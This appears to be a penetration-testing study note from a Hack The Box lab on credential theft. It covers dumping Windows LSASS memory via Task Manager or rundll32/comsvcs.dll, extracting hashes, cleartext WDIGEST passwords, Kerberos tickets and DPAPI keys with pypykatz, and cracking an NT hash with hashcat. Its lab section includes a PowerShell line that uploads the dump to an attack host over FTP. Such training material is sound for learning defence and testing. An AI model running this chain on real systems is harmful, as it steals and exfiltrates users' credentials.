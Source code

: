 - LSASS [Local Security Authority Subsystem Service (LSASS)](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service) is a core Windows process responsible for **enforcing security policies, handling user authentication, and storing sensitive credential material in memory.**
- Upon **initial logon**, LSASS will:
	- **Cache credentials locally in memory**
	- Create **[access tokens](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens)**
	- Enforce security policies
	- Write to Windows' [security log](https://docs.microsoft.com/en-us/windows/win32/eventlog/event-logging-security)

# Dumping LSASS process memory
---
- Similar to the process of attacking the SAM database, it would be wise for us first to create a **==copy of the contents of LSASS process memory via the generation of a memory dump.==**

## Task Manager method
- With access to an interactive graphical session on the target, we can use **task manager to create a memory dump.** This requires us to:
	1. **Open `Task Manager`**
	2. **Select the `Processes` tab**
	3. Find and **right click the `Local Security Authority Process`**
	4. **Select `Create dump file`**
1. A file **called `lsass.DMP`** is created and saved in `%temp%`. 
2. This is the file **we will transfer to our attack host.** 

## Rundll32.exe & Comsvcs.dll method - NoGUI req
-  **We must first determine what process ID (`PID`) is assigned to `lsass.exe`**. This can be done from cmd or PowerShell:
- From CMD:
	- `tasklist /svc | findstr lsass.exe`
	- ![[Pasted image 20250630050144.png]]
- From Powershell:
	- `Get-Process lsass`
	- ![[Pasted image 20250630050213.png]]
- Creating a dump file using PowerShell:
	- `rundll32 C:\windows\system32\comsvcs.dll, MiniDump <PID> C:\lsass.dmp full`
	- With this command, we are running `rundll32.exe` to **call an exported function of `comsvcs.dll`** which also **calls the MiniDumpWriteDump** (`MiniDump`) function to **dump the LSASS process memory to a specified directory (`C:\lsass.dmp`).**
	- Most AV tools recognize this as malicious activity and prevent the command from executing.
	- We can proceed t**o transfer the file onto our attack box** to attempt to extract any credentials.

# Using Pypykatz to extract credentials
---
- We can use a powerful tool called ==**[pypykatz](https://github.com/skelsec/pypykatz) to extract credentials from the `.dmp` file.**==
- Pypykatz is an **implementation of Mimikatz written entirely in Python.**
- Python allows us **to run it on Linux-based attack hosts.**
- ==**LSASS stores credentials that have active logon sessions== on Windows systems.** 
- When we dumped LSASS process memory into the file, we essentially took a **"snapshot" of what was in memory** at that point in time.
- If there were any active logon sessions, **==the credentials used to establish them will be present.==**

## Running Pypykatz
- `pypykatz lsa minidump /path/to/lsass.dmp`

## Output Explanation
- **MSV**
	- [MSV](https://docs.microsoft.com/en-us/windows/win32/secauthn/msv1-0-authentication-package) is an authentication package in Windows that ==**LSA calls on to validate logon attempts against the SAM database.**== 
	- Pypykatz extracted the `SID`, `Username`, `Domain`, and even the `NT` & `SHA1` password hashes **associated with the bob user account's logon session ==stored in LSASS process memory.==**
	- ![[Pasted image 20250630051237.png]]
- **WDIGEST**
	- ![[Pasted image 20250630051358.png]]
	- `WDIGEST` is an **older authentication protocol enabled by default in `Windows XP` - `Windows 8` and `Windows Server 2003` - `Windows Server 2012`.**
	- LSASS **==caches credentials used by WDIGEST in clear-text.==**
- **Kerberos**
	- ![[Pasted image 20250630051505.png]]
	- [Kerberos](https://web.mit.edu/kerberos/#what_is) is a network **authentication protocol used by Active Directory** in Windows Domain environments. Domain user accounts are g**ranted tickets upon authentication with Active Directory.**
	- This ticket is used to allow the user to **access shared resources on the network** that they have been granted access to without needing to type their credentials each time.
	- LSASS caches `passwords`, `ekeys`, `tickets`, and `pins` associated with Kerberos.
- **DPAPI**
	- ![[Pasted image 20250630051613.png]]
	- Mimikatz and Pypykatz can extract the **DPAPI `masterkey` for logged-on users** whose data is present in **LSASS process memory.**
	- **==These masterkeys can then be used to decrypt the secrets associated with each of the applications using DPAPI==** and result in the capturing of credentials for various accounts. 
	- DPAPI attack techniques are covered in greater detail in the [Windows Privilege Escalation](https://academy.hackthebox.com/module/details/67) module.

# Cracking the NT Hash with Hashcat
---
- `sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt`

# Lab
---
- Dump LSASS using task manager
- Transfer using FTP Method:
	- `python3 -m pyftpdlib --port 21 --write` => On Linux
	- `(New-Object Net.WebClient).UploadFile('ftp://10.10.15.93/ftp-hosts', '.\lsass.DMP')` => On Windows
	- Pypykatz => `pypykatz lsa minidump lsass.dmp ` and crack
		- `hashcat  -m 1000 vendor.hash /usr/share/wordlists/rockyou.txt`
